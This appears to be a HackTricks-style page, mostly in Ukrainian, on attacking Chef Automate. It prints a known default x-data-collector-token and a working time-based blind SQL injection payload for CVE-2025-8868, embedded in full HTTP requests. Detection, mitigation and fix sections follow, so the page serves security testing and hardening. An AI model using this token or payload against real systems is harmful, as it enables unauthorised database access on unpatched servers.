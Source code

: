 # Chef Automate Перерахування та атаки

{{#include ../../banners/hacktricks-training.md}}

## Огляд

На цій сторінці зібрані практичні техніки для виявлення та атак на інстанси Chef Automate, із акцентом на:
- Виявлення REST-ендпойнтів, підключених через gRPC-Gateway, та виведення схем запитів за допомогою повідомлень валідації/помилок
- Зловживання заголовком аутентифікації x-data-collector-token, коли присутні значення за замовчуванням
- Часозалежний сліпий SQL injection у Compliance API (CVE-2025-8868), що впливає на поле filters[].type у /api/v0/compliance/profiles/search

> Note: Backend responses that include header grpc-metadata-content-type: application/grpc typically indicate a gRPC-Gateway bridging REST calls to gRPC services.

## Розвідка: архітектура та сигнатури

- Front-end: Often Angular. Static bundles can hint at REST paths (e.g., /api/v0/...)
- API transport: REST to gRPC via gRPC-Gateway
- Responses may include grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
- Error bodies starting with pq: strongly suggest PostgreSQL with the Go pq driver
- Interesting Compliance endpoints (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Аутентифікація: Data Collector Token (x-data-collector-token)

Chef Automate надає data collector, який аутентифікує запити через спеціальний заголовок:

- Header: x-data-collector-token
- Risk: Some environments may retain a default token granting access to protected API routes. Known default observed in the wild:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

If present, this token can be used to call Compliance API endpoints otherwise gated by auth. Always attempt to rotate/disable defaults during hardening.

## Виведення схеми API через виявлення на основі помилок

gRPC-Gateway-backed endpoints often leak useful validation errors that describe the expected request model.

For /api/v0/compliance/profiles/search, the backend expects a body with a filters array, where each element is an object with:

- type: string (filter field identifier)
- values: array of strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
Некоректний JSON або неправильні типи полів зазвичай викликають помилки 4xx/5xx з підказками, а заголовки вказують на поведінку gRPC-Gateway. Використовуйте це, щоб зіставити поля та локалізувати поверхні ін'єкцій.

## Compliance API SQL Injection (CVE-2025-8868)

- Затронутий endpoint: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Клас вразливості: time-based blind SQL injection in PostgreSQL
- Причина: відсутність належної параметризації/перевірки за білим списком при інтерполяції поля type в динамічний SQL-фрагмент (ймовірно використовується для побудови ідентифікаторів/WHERE-умов). Сконструйовані значення в type виконуються PostgreSQL.

Working time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Technique notes:
- Закрийте вихідний рядок одинарною лапкою (')
- Додайте підзапит, який викликає pg_sleep(N)
- Знову уведіть контекст рядка через ||, щоб фінальний SQL залишався синтаксично валідним незалежно від того, де вставлено type

### Доказ через диференційну затримку

Надішліть пару запитів і порівняйте часи відповіді, щоб підтвердити виконання на боці сервера:

- N = 1 секунда
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 секунд
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Час відповіді масштабується відповідно до pg_sleep(N)
- HTTP 500 відповіді можуть містити pq: деталі під час пробування, що підтверджує шляхи виконання SQL

> Порада: Використовуйте таймінговий валідатор (наприклад, кілька запусків із статистичним порівнянням), щоб зменшити шум та false positives.

### Impact

Аутентифіковані користувачі — або неаутентифіковані дії, що зловживають дефолтним x-data-collector-token — можуть виконувати довільний SQL у контексті PostgreSQL Chef Automate, що ставить під загрозу конфіденційність та цілісність профілів відповідності, конфігурації та телеметрії.

### Affected versions / Fix

- CVE: CVE-2025-8868
- Upgrade guidance: Chef Automate 4.13.295 or later (Linux x86) per vendor advisories

## Detection and Forensics

- API layer:
- Моніторити 500 відповіді на /api/v0/compliance/profiles/search коли filters[].type містить лапки ('), конкатенацію (||) або посилання на функції типу pg_sleep
- Інспектувати заголовки відповіді на наявність grpc-metadata-content-type для ідентифікації потоків gRPC-Gateway
- Database layer (PostgreSQL):
- Аудит викликів pg_sleep та помилок malformed identifier (часто проявляються з префіксами pq:, що приходять від Go pq driver)
- Authentication:
- Логувати та генерувати алерти про використання x-data-collector-token, особливо відомих дефолтних значень, у межах API шляхів

## Mitigations and Hardening

- Immediate:
- Змінити/вимкнути дефолтні токени data collector
- Обмежити вхідний трафік до endpoint-ів data collector; вимагати сильні, унікальні токени
- Code-level:
- Параметризувати запити; ніколи не робити string-concatenate SQL фрагментів
- Строго whitelist-ити дозволені значення type на сервері (enum)
- Уникати динамічної збірки SQL для ідентифікаторів/клауз; якщо потрібна динаміка — використовувати безпечне екранування ідентифікаторів та явні whitelist-и

## Practical Testing Checklist

- Перевірити, чи приймається x-data-collector-token і чи працює відоме дефолтне значення
- Змапити схему запитів Compliance API, індукуючи помилки валідації та читаючи повідомлення про помилки/заголовки
- Тестувати на SQLi у менш очевидних полях, схожих на ідентифікатори (наприклад, filters[].type), а не лише в масивах значень або топ-рівневих текстових полях
- Використовувати тайм-бейзовані техніки з конкатенацією, щоб зберегти синтаксичну валідність SQL у різних контекстах

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
